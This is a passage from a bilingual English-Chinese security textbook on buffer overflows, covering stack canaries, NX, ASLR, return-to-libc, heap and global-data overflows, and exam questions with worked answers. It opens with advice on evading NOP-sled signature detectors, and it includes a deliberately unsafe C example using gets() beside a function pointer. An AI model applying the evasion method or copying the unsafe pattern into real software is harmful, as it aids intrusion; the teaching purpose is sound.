Replace the literal 0x90 NOP with any other single instruction (or short, fixed-length sequence of instructions) that has no effect on the registers and data the shellcode actually needs — for example, an instruction that modifies only a register the shellcode does not otherwise use. Repeating that instruction instead of 0x90 still "slides" execution down to the real shellcode no matter where in the padding it starts, but no longer matches a simple signature for the literal NOP byte. The general principle is that a NOP sled only needs instructions that are harmless to the attack's state, not literally the dedicated NOP opcode, so a detector keyed to one specific byte pattern is easy to evade.将字面上的 0x90 NOP 替换为任何其他对 shellcode 实际所需的寄存器和数据没有影响的单条指令（或短小的、定长的指令序列），例如仅修改 shellcode 其他地方未使用的某个寄存器的指令。以该指令代替 0x90 重复填充，无论执行从填充区的哪个位置开始，仍能“滑”到真正的 shellcode，但它不再匹配针对字面 NOP 字节的简单特征码。其一般原理是：NOP 滑板只需要对攻击状态无害的指令，而不必是专门的 NOP 操作码本身；因此，一个仅依据某个特定字节模式进行匹配的检测器很容易被规避。
Defending Against Buffer Overflow ★★★缓冲区溢出的防御
Goal. Name the compile-time and run-time defences, say which step of the attack each one breaks, and calculate the guessing probabilities of a canary and ASLR.目标。 说出编译期和运行期的防御措施，说明每一种防御会破坏攻击的哪一步，并计算栈金丝雀和 ASLR 的猜中概率。
Step 1: the two categories第 1 步：两类防御
In words: compile-time defences make new programs safe, run-time defences protect the programs that are already deployed.用文字表述：编译期防御让新程序变得安全，运行期防御保护已经部署的程序。
| Category类别 | Defences防御措施 | Needs recompiling需要重新编译 |
|---|---|---|
| Compile-time编译期 | Safe language, safe coding, safer library functions, stack canaries, Stackshield and Return Address Defender安全语言、安全编码、更安全的库函数、栈金丝雀、Stackshield 和 Return Address Defender | Yes是 |
| Run-time运行期 | Non-executable stack and heap (NX), address space layout randomisation (ASLR), guard pages, Libsafe-style library replacement不可执行的栈和堆（NX）、地址空间布局随机化（ASLR）、保护页、Libsafe 式的库替换 | No否 |
The attack of Section 14.3 has five steps. Every defence below breaks one of them.第 14.3 节的攻击有五个步骤。下面的每种防御都会破坏其中一步。
Step 2: compile-time defences第 2 步：编译期防御
The strongest defence is a language that does not permit buffer overflows (Section 14.1). In C, two measures help. Safe coding means that every write into a buffer first checks that there is enough space. Safer library functions replace the worst offenders.最强的防御是不允许缓冲区溢出的语言（见第 14.1 节）。在 C 中，有两项措施有帮助。安全编码是指每次写入缓冲区之前，先检查空间是否足够。更安全的库函数用来替换问题最严重的那些函数。
| Unsafe function不安全函数 | Problem问题 | Safer alternative更安全的替代函数 |
|---|---|---|
gets(str) |
no limit on line length对行长度无限制 | fgets(str, size, stdin) |
strcpy(dest, src) |
no bound on dest |
strncpy / strlcpy |
strcat(dest, src) |
no bound on dest |
strncat / strlcat |
sprintf(str, fmt, …) |
no bound on str |
snprintf |
vsprintf(str, fmt, ap) |
no bound on str |
vsnprintf |
Libsafe replaces the standard string library with bound-checked versions that are loaded first. Existing binaries that call these functions dynamically gain some protection without recompiling.Libsafe 用带边界检查的版本替换标准字符串库，并让它们优先加载。调用这些函数的现有二进制程序无需重新编译，就能动态获得一定的保护。
Stack canary（栈金丝雀）. A compiler extension, classically StackGuard, adds code at function entry and exit. The entry code writes a canary into the frame, just below the saved frame pointer and the return address. The canary is a value chosen freshly and unpredictably for each run. The exit code checks that the canary is unchanged before it restores the frame pointer and returns. If the canary changed, the program aborts.栈金丝雀。一种编译器扩展（典型代表是 StackGuard）会在函数入口和出口处加入代码。入口代码把一个金丝雀值写入栈帧中，位于保存的帧指针和返回地址之下。这个值每次运行都重新随机选取，无法预测。出口代码在恢复帧指针并返回之前，先检查金丝雀是否未被改变。如果金丝雀被改变了，程序就会中止。
| Address地址 | Slot单元 | After a sequential overflow连续溢出之后 |
|---|---|---|
| high高 | return address返回地址 | not reached, because the check fails first到达不了，因为检查先失败 |
| saved frame pointer保存的帧指针 | overwritten被覆盖 | |
| canary金丝雀 | overwritten, so the exit check detects it被覆盖，因此出口检查会发现它 | |
| low低 | local buffer局部缓冲区 | overwritten被覆盖 |
A sequential overflow must pass the canary before it reaches the return address. So the canary breaks step 4 of the attack: the overwrite is detected before the return address is used. The canary must be unpredictable. An attacker who knows it can write the right bytes into its place and continue.连续溢出要到达返回地址，必须先经过金丝雀。因此金丝雀破坏了攻击的第 4 步：在使用返回地址之前，覆盖就已被发现。金丝雀必须不可预测。若攻击者知道它的值，就能在它原来的位置写入正确的字节，然后继续覆盖。
Stackshield and Return Address Defender work differently. They leave the frame unchanged and copy the return address to a protected region on entry. The exit code compares it with the copy in the frame. Both approaches need recompiling.Stackshield 和 Return Address Defender 的做法不同。它们不改变栈帧，而是在入口处把返回地址复制到一个受保护的区域。出口代码再把它与栈帧中的副本作比较。两种做法都需要重新编译。
Step 3: run-time defences第 3 步：运行期防御
Non-executable stack and heap (NX or DEP)（不可执行栈）. The memory-management unit marks pages as non-executable. A jump into such a page faults. Marking the stack and heap non-executable breaks step 5 for injected shellcode: the code lands on the stack but cannot run. It works for any existing program. A few legitimate uses need executable stack memory (just-in-time compilers, signal handlers) and must be special-cased. NX does not stop return-to-libc (Section 14.6), which injects no code.不可执行的栈和堆（NX 或 DEP）。内存管理单元把页面标记为不可执行。跳转到这样的页面会引发故障。把栈和堆标记为不可执行，可以破坏注入 shellcode 的第 5 步：代码虽然落在栈上，却无法运行。这种方法对任何现有程序都有效。少数合法用途需要可执行的栈内存（如即时编译器、信号处理程序），必须作为特例处理。NX 无法阻止 return-to-libc 攻击（见第 14.6 节），这种攻击不注入任何代码。
Address space layout randomisation (ASLR)（地址空间布局随机化）. The operating system places the stack, heap and libraries at random addresses in each run. This breaks step 3: the attacker cannot predict the address to write into the return address.地址空间布局随机化（ASLR）。操作系统在每次运行时把栈、堆和库放在随机的地址上。这破坏了第 3 步：攻击者无法预测应该把返回地址写成什么地址。
ASLR does not stop an attempt, and it only lowers the success probability. A wrong guess usually crashes the program. A service that restarts identically after each crash can be attacked again and again, so ASLR is paired with other defences.ASLR 无法阻止一次攻击，它只是降低成功的概率。猜错通常会使程序崩溃。如果服务在每次崩溃后以相同的布局重新启动，就可能被反复攻击，因此 ASLR 要与其他防御配合使用。
Guard pages（保护页）. Gaps between the regions of the address space, and optionally between frames or allocations, are marked illegal. Any access aborts the process. Guard pages stop overflows that keep writing past one region into the next (Section 14.7). Dense placement costs page mappings.保护页。地址空间中各区域之间的间隔（也可以选择在栈帧或内存分配之间）被标记为非法。任何访问都会使进程中止。保护页可以阻止那些越过一个区域继续写入下一个区域的溢出（见第 14.7 节）。紧密排布会占用更多页映射。
Step 4: which defence stops which attack第 4 步：每种防御阻止哪种攻击
| Defence防御 | Step of the attack it breaks所破坏的攻击步骤 | Does not stop无法阻止 |
|---|---|---|
| Safe code and safer library functions安全代码和更安全的库函数 | 1: no unchecked copy exists1：不存在未检查的复制 | Any bug that remains elsewhere其他地方残留的任何漏洞 |
| Stack canary, Stackshield, Return Address Defender栈金丝雀、Stackshield、Return Address Defender | 4: the return address is checked before use4：返回地址在使用前被检查 | An overflow that changes only a neighbouring variable只改变相邻变量的溢出 |
| NX or DEPNX 或 DEP | 5: injected code cannot run5：注入的代码无法运行 | Return-to-libc |
| ASLR | 3: the target address cannot be predicted3：目标地址无法预测 | Repeated attempts against a service that restarts针对会重启服务的反复尝试 |
| Guard pages保护页 | 2: writing past a region is stopped2：越过区域的写入被阻止 | Overflows inside one region同一区域内部的溢出 |
Layers multiply the attacker's difficulty. With a 32-bit canary and ASLR with 2^24 equally likely placements, one blind attempt succeeds with probability 1/2^24 × 1/2^32 = 1/2^56, about 1.4 × 10^-17. This follows from the independence of the two defences. The principle is defence in depth: no single defence is complete.多层防御会成倍增加攻击者的难度。若金丝雀为 32 位，ASLR 有 2^24 种同样可能的布局，那么一次盲目尝试成功的概率是 1/2^24 × 1/2^32 = 1/2^56，约为 1.4 × 10^-17。这一结果来自两种防御相互独立。其原则是纵深防御：没有任何单一防御是完备的。
Practice练习
Q1. (Compare) A legacy, closed-source network service cannot be recompiled. Which defences from this section can still protect it, and which cannot? Justify each.Q1.（比较）一个遗留的闭源网络服务无法重新编译。本节中哪些防御仍能保护它，哪些不能？请分别说明理由。
Answer
Run-time defences can still help because they are applied by the operating system or memory-management unit, not by recompiling the program: a non-executable stack/heap, ASLR, and guard pages all protect an unmodified binary (Libsafe-style library replacement can too, if the program calls the standard library dynamically). Compile-time defences — safe languages, safe coding, stack canaries, Stackshield/RAD — cannot help without rebuilding the program from source, which is not possible here.运行期防御仍然有所帮助，因为它们由操作系统或内存管理单元施加，而无需重新编译程序：不可执行的栈/堆、ASLR 和保护页均能保护未经修改的二进制程序（若程序动态调用标准库，类似 Libsafe 的库替换方法同样适用）。编译期防御——安全语言、安全编码、栈金丝雀、Stackshield/RAD——若不从源代码重新构建程序则无法起作用，而在此情形下这是不可能的。
Q2. (Calculation) A system uses a 24-bit stack canary (weaker than the usual 32 bits). What is the probability that a single blind guess matches it? Compare this with a 32-bit canary and state, in words, how many times easier the 24-bit canary is to guess.Q2.（计算）某系统使用 24 位的栈金丝雀（比通常的 32 位更弱）。单次盲猜与之匹配的概率是多少？请将其与 32 位金丝雀进行比较，并以文字说明 24 位金丝雀要容易猜中多少倍。
Answer
\(P=1/2^{24}=1/16{,}777{,}216\approx6.0\times10^{-8}\). Against a 32-bit canary, \(P=1/2^{32}\), so the 24-bit canary is \(2^{32}/2^{24}=2^{8}=256\) times easier to guess blindly.\(P=1/2^{24}=1/16{,}777{,}216\approx6.0\times10^{-8}\)。对于 32 位金丝雀，该概率为 \(P=1/2^{32}\)，因此 24 位金丝雀盲猜时容易 \(2^{32}/2^{24}=2^{8}=256\) 倍。
Q3. (Going further) Combine two defences: a system has ASLR with \(2^{24}\) equally likely stack placements and a 32-bit stack canary that must also be matched for the classic overwrite-the-return-address attack to succeed in one blind attempt (assume the two must both be satisfied and are independent). What is the combined success probability of one blind attempt, and which single number dominates it?Q3.（进阶）组合两种防御：某系统采用 ASLR，栈有 \(2^{24}\) 种等可能的放置位置；同时，经典的覆写返回地址攻击要想在一次盲猜中成功，还须猜中一个 32 位栈金丝雀（假设两者必须同时满足且相互独立）。一次盲猜的组合成功概率是多少？哪一个数值主导了它？
Answer
Combined probability \(=\dfrac{1}{2^{24}}\times\dfrac{1}{2^{32}}=\dfrac{1}{2^{56}}\approx1.4\times10^{-17}\). The 32-bit canary term dominates, since \(2^{32}>2^{24}\): stacking independent defences multiplies their individual probabilities, so even a comparatively weaker layer still makes the combination far harder than either defence alone — layered defences (defence in depth) are far stronger together than any single one, even when none is individually unbreakable.组合概率为 \(=\dfrac{1}{2^{24}}\times\dfrac{1}{2^{32}}=\dfrac{1}{2^{56}}\approx1.4\times10^{-17}\)。32 位金丝雀项占主导地位，因为 \(2^{32}>2^{24}\)：相互独立的防御会使各自的概率相乘，因此即使某一层相对较弱，也会使组合远比任何一种防御单独使用时更难突破。分层防御（即纵深防御）在一起时远比任何单一防御强大，即便其中每一层都并非不可攻破。
Other Stack-Overflow Variants ★★其他栈溢出变体
Goal. Explain the off-by-one attack with a replacement stack frame and the return-to-libc attack, and say which defence stops which.目标。 解释利用替换栈帧的差一攻击和 return-to-libc 攻击，并说明各由哪种防御阻止。
Step 1: off-by-one and the replacement stack frame第 1 步：差一错误与替换栈帧
In words: an off-by-one error copies one byte too many, and the attacker uses that one byte to point the saved frame pointer at a fake frame inside the buffer.用文字表述：差一错误多复制了一个字节，攻击者利用这个字节，把保存的帧指针指向缓冲区内部的一个伪造栈帧。
An off-by-one（差一错误）error is a mistake in a bounds-checked copy. The programmer checked the size but wrote the wrong comparison, for example <= where < was needed. Exactly one byte too many is copied. If the buffer sits right below the saved frame pointer, the extra byte lands on the lowest-address byte of the frame pointer. On little-endian x86 this is its least significant byte, one of 256 values.差一错误是带边界检查的复制中出现的错误。程序员检查了大小，但写错了比较条件，例如应当用 < 时却写了 <=。结果恰好多复制一个字节。如果缓冲区紧挨在保存的帧指针下方，多出的这个字节就会落在帧指针的最低地址字节上。在小端序的 x86 上，这就是帧指针的最低有效字节，它有 256 种可能的取值之一。
One byte cannot reach the return address. The replacement stack frame technique works around this.一个字节无法到达返回地址。替换栈帧技术可以绕过这一限制。
- The attacker builds a small fake frame inside the buffer. Its return address points to shellcode placed earlier in the same buffer.攻击者在缓冲区内构造一个小的伪造栈帧。它的返回地址指向同一缓冲区中较早放置的 shellcode。
- The one-byte change redirects the saved frame pointer to the fake frame.这一个字节的改动把保存的帧指针指向伪造栈帧。
- The current function returns normally, because its own return address is untouched.当前函数正常返回，因为它自己的返回地址没有被改动。
- The caller now uses the corrupted frame pointer. When the caller returns, it takes the return address of the fake frame and jumps into the shellcode.调用者现在使用被破坏的帧指针。调用者返回时，会取出伪造栈帧中的返回地址，并跳入 shellcode。
The one-byte change must hit a precisely predicted address. There is no sled tolerance, unlike in the direct attack (Section 14.4). The attack is used when only a small overflow is possible.这一个字节的改动必须命中一个精确预测的地址。与直接攻击（见第 14.4 节）不同，它没有滑板容错。这种攻击用于只能发生较小溢出的情况。
Step 2: return-to-libc第 2 步：return-to-libc
In words: return-to-libc = no new code, the return address is pointed at a function that is already in the program.用文字表述：return-to-libc = 不注入新代码，把返回地址指向程序中已经存在的一个函数。
A return-to-libc（返回 libc 攻击）attack injects no code. The overwritten return address points to a function in a loaded library, classically system(), which runs a shell command. The function expects to be called normally. So the attacker also places a fake return address of its own and then the argument, here the address of the command string, above the overwritten return address. The function runs with its argument already in place.返回 libc 攻击不注入任何代码。被覆盖的返回地址指向已加载库中的一个函数，典型的是 system()，它会运行一条 shell 命令。该函数本应被正常调用，因此攻击者还要在被覆盖的返回地址之上放入一个伪造的返回地址，再放入参数（这里是命令字符串的地址）。函数执行时，参数已经就位。
Scenario: the attacker overwrites the return address with the address of system(). Above it the input holds a placeholder return address and the address of a command string. When the vulnerable function returns, system() runs the command.情景：攻击者用 system() 的地址覆盖返回地址。在它上面，输入中依次放着一个占位的返回地址和命令字符串的地址。当存在漏洞的函数返回时，system() 执行该命令。
NX does not stop this attack. The code that runs is already part of the process and already executable. ASLR of the libraries is the main counter, because the address of system() becomes unpredictable. A stack canary or a return-address check also still catches the overwrite. Chaining many short pieces of existing code generalises to return-oriented programming (Terms).NX 无法阻止这种攻击。运行的代码本来就是进程的一部分，本身已经可执行。对它的主要防御是库的 ASLR，因为 system() 的地址变得不可预测。栈金丝雀或返回地址检查同样能发现这种覆盖。把许多短小的现有代码片段串联起来，就推广为面向返回编程（见术语）。
Practice练习
Q1. (Explain why) Why does the replacement-stack-frame technique need the attacker to know the buffer's address precisely, while the direct return-address attack of Section 14.3 tolerates an approximate guess (with a NOP sled)?Q1.（解释原因）替换栈帧技术为什么需要攻击者精确知道缓冲区的地址，而第 14.3 节的直接返回地址攻击（借助 NOP 滑板）却能容忍大致的猜测？
Answer
In the direct attack, the chosen return address can be anywhere inside a NOP sled and execution still slides down into the real shellcode, so a range of addresses all work. In the replacement-frame technique, the one-byte change must redirect the saved frame pointer to the exact location of the fake frame the attacker built, because the caller will use that address directly as its own frame pointer with no "sled" equivalent to absorb an error; a wrong address there is likely to crash the program before the fake frame's return address is ever reached.在直接攻击中，选定的返回地址可以位于 NOP 滑板内的任意位置，执行流仍会滑入真正的 shellcode，因此一整段地址范围内的任一地址都有效。而在替换栈帧技术中，这一字节的改动必须将已保存的帧指针精确指向攻击者构造的伪造栈帧的确切位置，因为调用者会直接把该地址用作其自身的帧指针，而没有类似“滑板”的机制可以吸收误差；此处地址一旦错误，程序很可能在到达伪造栈帧的返回地址之前就已崩溃。
Q2. (True/false) "A return-to-libc attack cannot succeed on a system with a non-executable stack, because the stack cannot hold executable shellcode." Justify your answer.Q2.（判断）“在不可执行栈的系统上，返回 libc 攻击不可能成功，因为栈无法容纳可执行的 shellcode。”请说明理由。
Answer
False. A return-to-libc attack does not need the stack to hold executable shellcode at all — it redirects execution into existing, already-executable library code, using the stack only to hold data (the fake return address and argument values), which a non-executable stack still permits. Non-executable memory defeats only attacks that need to run newly injected code from a data region.错误。返回 libc 攻击根本不需要栈中包含可执行的 shellcode——它将执行流重定向到已存在且本身即可执行的库代码中，栈只用于保存数据（伪造的返回地址和参数值），而不可执行栈仍然允许这样做。不可执行内存只能阻止那些需要从数据区运行新注入代码的攻击。
Heap and Global Data Overflows ★★堆与全局数据溢出
Goal. Explain what a heap or a global-data overflow corrupts, how control is taken later, and how this differs from a stack overflow.目标。 解释堆溢出或全局数据溢出会破坏什么，控制权如何在之后被夺取，以及它与栈溢出有何不同。
Step 1: heap overflows第 1 步：堆溢出
In words: a heap or global overflow overwrites a function pointer next to the buffer, and the attacker gets control at the next call through that pointer.用文字表述：堆溢出或全局数据溢出会覆盖缓冲区旁边的一个函数指针，攻击者在下一次通过该指针调用时获得控制权。
A heap overflow（堆溢出）targets a buffer that was allocated with malloc or a similar call. The heap holds no return addresses. A heap record often holds something just as useful: a function pointer in the same allocation. A function pointer is a variable that stores the address of a function to be called later.堆溢出攻击的是用 malloc 或类似调用分配的缓冲区。堆中不存放返回地址。但堆中的记录往往也有同样有用的东西：同一块分配区中的函数指针。函数指针是一种变量，用来保存以后要调用的函数的地址。
typedef struct {
char data[32];
void (*handler)(char *);
} record_t;
void show(char *s) { printf("length=%d\n", (int)strlen(s)); }
int main(void) {
record_t *r = malloc(sizeof(record_t));
r->handler = show;
gets(r->data); /* no bound on input length: unsafe */
r->handler(r->data);
}
Data longer than 32 bytes spills into handler. It replaces the address of show with an address of the attacker's choice. The call r->handler(r->data) then transfers control there. A structure's allocator records, such as free-list links, can sometimes be corrupted in the same way, which gives an indirect route to the same effect.超过 32 字节的数据会溢出到 handler 中。它把 show 的地址替换为攻击者选择的地址。随后的调用 r->handler(r->data) 会把控制权转移到那里。分配器记录（例如空闲链表的链接）有时也能以同样的方式被破坏，从而间接达到同样的效果。
Step 2: global data area overflows第 2 步：全局数据区的溢出
A buffer declared as a global or static variable sits in the global data area. The same idea applies: a function pointer or a management table next to it can be overwritten. The address of a global variable is fixed by the executable and its load layout. It does not move from run to run unless that region is randomised. So a global target is the easiest of the three to hit exactly, once the binary can be examined. A heap address depends on earlier allocations. A stack address depends on the call path and can be randomised by ASLR.声明为全局或静态变量的缓冲区位于全局数据区中。同样的道理也适用：它旁边的函数指针或管理表可能被覆盖。全局变量的地址由可执行文件及其加载布局决定，除非该区域被随机化，否则每次运行都不会改变。因此，只要能够检查二进制文件，全局目标是三者中最容易精确命中的。堆地址取决于之前的内存分配；栈地址取决于调用路径，并且可以被 ASLR 随机化。
Scenario: a program has a global 64-byte buffer followed by a table of handler pointers. The attacker reads the executable, learns the fixed address of the table, and overflows the buffer to replace one handler.情景：一个程序有一个全局的 64 字节缓冲区，其后紧跟一张处理函数指针表。攻击者读取可执行文件，得知该表的固定地址，然后溢出缓冲区以替换其中一个处理函数。
| Overflow location溢出位置 | Typical target overwritten典型的被覆写目标 | Can hijack control via可借以劫持控制流的途径 |
|---|---|---|
| Stack栈 | saved frame pointer, return address已保存的帧指针、返回地址 | the function's own ret |
| Heap堆 | a function pointer or allocator metadata in an adjacent allocation相邻分配块中的函数指针或分配器元数据 | a later indirect call through that pointer之后经由该指针的间接调用 |
| Global/static data全局/静态数据 | a function pointer or adjacent management table函数指针或相邻的管理表 | a later indirect call through that pointer之后经由该指针的间接调用 |
The defences mirror Section 14.5. They are non-executable heap and global data, randomised heap addresses, function pointers placed below other data, and guard pages between the data area and the management tables. An overflow that corrupts only an ordinary variable (the tag and resp example of Section 14.1) is not detected by any overflow-specific defence. Only correct bounds-checked code prevents it. Format-string and integer-overflow bugs are covered in Chapter 15.这些防御与第 14.5 节相对应：不可执行的堆和全局数据、随机化的堆地址、把函数指针放在其他数据的下方，以及在数据区和管理表之间设置保护页。只破坏普通变量的溢出（即第 14.1 节中 tag 和 resp 的例子），不会被任何针对溢出的防御检测到。只有正确的、带边界检查的代码才能防止它。格式化字符串漏洞和整数溢出漏洞将在第 15 章讨论。
Practice练习
Q1. (Explain why) Why can a heap overflow not simply overwrite a return address the way a stack overflow does?Q1.（解释原因）为什么堆溢出不能像栈溢出那样直接覆写返回地址？
Answer
Return addresses exist only on the stack, as part of the function-call mechanism (Section 14.2); the heap is just a pool of dynamically allocated memory with no equivalent per-allocation "address to jump back to." A heap overflow can only corrupt whatever data happens to be stored adjacent to the overflowed allocation — most usefully a function pointer, or allocator bookkeeping metadata — and relies on a later indirect call or the allocator's own logic to transfer control, rather than on a ret instruction.返回地址只存在于栈上，是函数调用机制的一部分（见第 14.2 节）。堆只是动态分配内存的一个池，没有与每次分配对应的、用于跳回的“返回地址”。堆溢出只能破坏紧邻被溢出分配块的数据，最有用的通常是函数指针，或分配器的记账元数据。它依赖之后的一次间接调用，或分配器自身的逻辑来转移控制，而不是靠 ret 指令。
Q2. (True/false) "A global-data buffer overflow is generally easier for an attacker to target precisely than a stack buffer overflow on a system with ASLR enabled." Justify your answer.Q2.（判断）“在启用了 ASLR 的系统上，全局数据缓冲区溢出通常比栈缓冲区溢出更容易被攻击者精确瞄准。”请说明理由。
Answer
True. ASLR (Section 14.5) randomises stack (and often heap) addresses on each run, but a global/static variable's address is fixed by the program's own executable and load layout and typically does not move — unless the whole executable's base address is also randomised — so an attacker who has examined the binary can usually predict a global target's address exactly, while a stack or heap target's address is deliberately made unpredictable.对。ASLR（见第 14.5 节）在每次运行时随机化栈（通常还有堆）的地址，但全局/静态变量的地址由程序自身的可执行文件和加载布局决定，通常不会移动，除非整个可执行文件的基址也被随机化。因此，检查过二进制文件的攻击者通常能精确预测全局目标的地址；而栈或堆目标的地址则被刻意设计成不可预测。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Stack smashing栈粉碎 | Another name for a stack overflow栈溢出的另一种叫法 |
| Terminator canary终止符金丝雀 | A canary that contains a NUL byte (and sometimes CR, LF, EOF). String-copy overflows stop there and cannot reproduce it含有 NUL 字节（有时还包括 CR、LF、EOF）的金丝雀。字符串复制类溢出会在此处停止，因而无法复现它 |
| Return-oriented programming (ROP)（返回导向编程） | Chaining short pieces of existing code. It works against NX and is a standard technique against modern defences把现有代码的短片段串联起来。它对 NX 有效，是对抗现代防御的标准技术 |
| Libsafe | Bound-checked versions of the string library, loaded before the standard one. Protects existing binaries带边界检查的字符串库版本，先于标准库加载。可保护现有的二进制程序 |
| Stackshield, Return Address Defender两种工具：Stackshield、Return Address Defender | Copy the return address to a protected place on entry and compare on exit. Compatible with debuggers入口时把返回地址复制到受保护的位置，出口时进行比较。与调试器兼容 |
| 64-bit x86-6464 位 x86-64 | The same attack with 8-byte addresses. The registers are %rsp, %rbp and %rip同样的攻击，但地址为 8 字节。所用寄存器为 %rsp、%rbp 和 %rip |
| Jump-then-call跳转后调用 | A trick for position-independent shellcode: call pushes the address of the data that follows用于位置无关 shellcode 的技巧：call 压入紧随其后的数据的地址 |
gets, strcpy, strcat, sprintf, vsprintf |
Unsafe library functions without a bound on the destination对目标没有长度限制的不安全库函数 |
| Safer alternatives更安全的替代函数 | fgets, strncpy or strlcpy, strncat or strlcat, snprintf, vsnprintf |
Exam-style questions考试题型练习
Q1. (Stack overflow mechanics, 14 marks) A function has a local buffer char buf[16], below a 4-byte saved frame pointer and a 4-byte return address. (a) List, in order, the three values an overflow of buf overwrites as it grows, and explain why that order follows from the stack-frame layout. (4 marks) (b) Compute how many bytes of input are needed to exactly fill the buffer and frame pointer without touching the return address, and how many to fully control the return address. (4 marks) (c) The attacker wants to set the return address to 0x080484C6. Give the four bytes, in the order they must be written into memory. (3 marks) (d) Explain one reason the saved frame pointer cannot simply be left as garbage in this attack. (3 marks)Q1.（栈溢出机制，14 分）某函数有一个局部缓冲区 char buf[16]，位于 4 字节的已保存帧指针和 4 字节的返回地址之下。（a）按顺序列出溢出 buf 随其增长而依次覆写的三个值，并解释为何该顺序由栈帧布局决定。（4 分）（b）计算需要多少字节的输入才能恰好填满缓冲区和帧指针而不触及返回地址，以及需要多少字节才能完全控制返回地址。（4 分）（c）攻击者希望将返回地址设为 0x080484C6。请给出四个字节，并按其必须写入内存的顺序排列。（3 分）（d）请解释一个原因：在本攻击中，已保存的帧指针不能简单地留作无效的垃圾值。（3 分）
Answer
(a) First the buffer itself fills; then the saved frame pointer, which sits immediately above it; then the return address, which sits above the frame pointer. This order follows directly from the stack-frame layout (Section 14.2): within one frame, local variables are allocated below the saved frame pointer, which is below the return address, and a contiguous overflow writes upward through all three in that order.（a）先被填满的是缓冲区本身；接着是紧挨其上方的保存的帧指针；然后是位于帧指针上方的返回地址。这一顺序直接来自栈帧布局（见第 14.2 节）：在同一个栈帧中，局部变量分配在保存的帧指针之下，而保存的帧指针又位于返回地址之下。连续的溢出会按此顺序，向上依次写过这三者。
(b) \(B+F=16+4=20\) bytes exactly fill the buffer and frame pointer. \(B+F+R=16+4+4=24\) bytes fully control the return address.（b）\(B+F=16+4=20\) 字节恰好填满缓冲区和帧指针。\(B+F+R=16+4+4=24\) 字节即可完全控制返回地址。
(c) x86 is little-endian, so 0x080484C6 is written in memory order as c6 84 04 08.（c）x86 采用小端序，因此 0x080484C6 按内存顺序写为 c6 84 04 08。
(d) The function restores the saved frame pointer into the frame-pointer register before it returns; if that value is garbage rather than some address that at least does not immediately fault, the program can crash while restoring or using it, before the (correctly set) return address is ever reached — so the attack would fail even though the return address itself was set correctly.（d）函数在返回之前会将已保存的帧指针恢复到帧指针寄存器中；如果该值是垃圾数据，而不是至少不会立即引发故障的某个地址，那么程序可能在恢复或使用它时就已崩溃，而未能到达（已正确设置的）返回地址——因此，即使返回地址本身设置正确，攻击也会失败。
思路：先按栈帧结构确定覆盖顺序，再用 B+F 和 B+F+R 算字节数，最后记得 x86 小端序要把目标地址倒着写。
Q2. (Shellcode and NOP sled, 12 marks) (a) State the two generic restrictions on shellcode carried inside a string-based buffer overflow, and explain the reason for each. (6 marks) (b) A vulnerable buffer is 200 bytes; the attacker's shellcode is 40 bytes. If the whole buffer is filled with a NOP sled followed by the shellcode, and the return address is aimed at the sled's midpoint, what is the largest address-guessing error the attack tolerates? (3 marks) (c) Explain, in one or two sentences, why a longer buffer generally makes this kind of attack easier to carry out successfully. (3 marks)Q2.（Shellcode 与 NOP 滑板，12 分）（a）说明在基于字符串的缓冲区溢出中所携带的 shellcode 的两条通用限制，并分别解释其原因。（6 分）（b）某存在漏洞的缓冲区为 200 字节，攻击者的 shellcode 为 40 字节。若整个缓冲区由 NOP 滑板加 shellcode 填满，且返回地址瞄准滑板中部，则该攻击所能容忍的最大地址猜测误差是多少？（3 分）（c）用一两句话解释，为什么更长的缓冲区通常会使此类攻击更容易成功实施。（3 分）
Answer
(a) Position independence: the attacker only knows the buffer's address approximately (different call paths can place it differently), so shellcode must use relative offsets to itself rather than any hard-coded absolute address. No embedded NULL bytes: the overflow is normally carried by a string-copy routine that stops at the first zero byte, so a literal zero byte inside the shellcode would truncate it before it finished copying; any zero value the code needs must be produced at run time instead (for example, by XOR-ing a register with itself).（a）位置无关：攻击者只能近似地知道缓冲区的地址（不同的调用路径可能使其位置不同），因此 shellcode 必须使用相对于自身的偏移量，而不能使用任何硬编码的绝对地址。不含 NULL 字节：溢出通常由遇到第一个零字节即停止的字符串复制例程携带，因此 shellcode 中的字面零字节会在其复制完成之前将其截断；代码所需的任何零值都必须改为在运行时生成（例如，将寄存器与自身异或）。
(b) Sled length \(=200-40=160\) bytes; tolerated error \(=160/2=80\) bytes.（b）滑板长度为 \(=200-40=160\) 字节；可容忍的误差为 \(=160/2=80\) 字节。
(c) A longer buffer leaves more room for a longer NOP sled once the (fixed-size) shellcode is accounted for, and a longer sled tolerates a larger address-guessing error, so the same imprecise knowledge of the buffer's address is more likely to still land the attack successfully.（c）在扣除（固定大小的）shellcode 之后，更长的缓冲区为更长的 NOP 滑板留出了更多空间，而更长的滑板可以容忍更大的地址猜测误差，因此对缓冲区地址同样不精确的了解，更有可能仍使攻击成功。
易错：sled 长度 = 缓冲区总长 − shellcode 长度，不是缓冲区总长本身。
Q3. (Defences, 15 marks) (a) Classify stack canaries, non-executable stacks, and ASLR as compile-time or run-time defences, and explain the practical difference this makes for protecting already-deployed software. (5 marks) (b) A system uses a 32-bit stack canary. What is the probability that one blind guess matches it? (2 marks) (c) Explain why a non-executable stack does not, by itself, stop a return-to-libc attack. (3 marks) (d) A service with ASLR giving \(2^{20}\) equally likely stack placements is attacked with a 512-byte NOP sled. Compute the success probability of one blind attempt, and explain in words why this number alone does not mean the service is safe. (5 marks)Q3.（防御，15 分）（a）将栈金丝雀、不可执行栈和 ASLR 分别归类为编译期防御或运行期防御，并解释这一区别对保护已部署软件有何实际意义。（5 分）（b）某系统使用 32 位栈金丝雀。单次盲猜与之匹配的概率是多少？（2 分）（c）解释为何不可执行栈本身并不能阻止返回 libc 攻击。（3 分）（d）某服务采用 ASLR，使栈有 \(2^{20}\) 种等可能的放置位置，并遭到使用 512 字节 NOP 滑板的攻击。计算单次盲攻击的成功概率，并用文字解释为何仅凭这一数字并不意味着该服务是安全的。（5 分）
Answer
(a) Stack canaries are a compile-time defence (the program must be recompiled with the extra entry/exit code); non-executable stacks and ASLR are run-time defences (enforced by the operating system and processor, so they protect an existing binary with no recompilation needed). This matters because most deployed, vulnerable software cannot easily be recompiled and redistributed, so only run-time defences can protect it without the vendor's cooperation.（a）栈金丝雀属于编译期防御（程序必须重新编译，并加入额外的入口/出口代码）；不可执行栈和 ASLR 属于运行期防御（由操作系统和处理器强制执行，因此无需重新编译即可保护已有的二进制程序）。这一点很重要，因为大多数已部署的、存在漏洞的软件都难以重新编译和再发布，因此只有运行期防御能够在无需厂商配合的情况下保护它。
(b) \(P=1/2^{32}\approx2.3\times10^{-10}\).
